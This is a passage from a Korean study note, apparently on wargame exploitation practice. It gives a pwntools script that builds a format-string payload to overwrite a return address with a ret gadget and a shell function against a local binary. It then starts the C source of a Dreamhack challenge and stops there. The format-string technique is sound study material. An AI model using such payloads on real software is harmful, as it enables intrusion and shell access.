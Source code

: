 
# 별해
스택정렬 이슈를 평범하게 ret가젯 다음 shell 주소를 넣어서 해결함 
```python
from pwn import *
context.terminal=['tmux', 'splitw', '-h']
p = process('./FSB_EX')
e = ELF('./FSB_EX')


#0x0000000000401166
buf = int(p.recv(14),16)
print(buf)
ret_addr = buf + 0xd8
shell_low = 0x1166
shell_high = 0x0040
ret_low = 0x123c
ret_high = 0x0040

payload = b''
payload += b'%'+str(ret_high).encode() + b'c'
payload += b'%11$n'
payload += b'%12$n'
payload += b'%'+str(shell_low - shell_high).encode() + b'c'
payload += b'%13$hn'
payload += b'%' +str(ret_low - shell_low).encode() + b'c'
payload += b'%14$hn'

print(payload)
print(len(payload))
l = len(payload) 
payload += b'a' * (8 - (l % 8))
print(payload)
print(len(payload))

payload += p64(ret_addr+2)
payload += p64(ret_addr+10)
payload += p64(ret_addr+8)
payload += p64(ret_addr)

#0x000000000040123c

p.send(payload)
p.interactive()
```

---
# 예시3
[[Dreamhack - basic_Exploitation_003]]
# 문제 코드
```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}
void initialize() {
```